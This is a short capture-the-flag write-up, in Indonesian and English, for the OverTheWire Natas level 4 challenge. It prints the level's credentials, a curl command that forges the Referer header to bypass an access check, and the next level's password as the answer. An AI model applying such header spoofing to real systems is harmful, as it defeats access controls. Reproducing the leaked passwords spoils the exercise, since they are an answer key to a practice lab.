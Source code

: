 # soal
Username: natas4 \
URL:      http://natas4.natas.labs.overthewire.org \

# solve
- use cred natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ
- use the curl, burp suite, third party extension (header editor)
  - and change the request header with 
  ```
  Referer: http://natas5.natas.labs.overthewire.org/
  # gunakan / akhir karena ketika saya coba tanpa / tidak bisa
  ```
- jika menggunakan curl
```bash
curl http://natas4.natas.labs.overthewire.org -u natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ -H "Referer: http://natas5.natas.labs.overthewire.org/"
# Access granted. The password for natas5 is 0n35PkggAPm2zbEpOU802c0x0Msn1ToK
```

## HTTP Referer
- Referer: <url>
- dalah salah satu header HTTP yang digunakan untuk memberi tahu server dari mana asal pengguna sebelum mengakses halaman tertentu. Fungsinya adalah untuk memberi konteks kepada server tentang halaman sebelumnya yang "mengacu" atau "merujuk" ke halaman saat ini.

# flag
0n35PkggAPm2zbEpOU802c0x0Msn1ToK
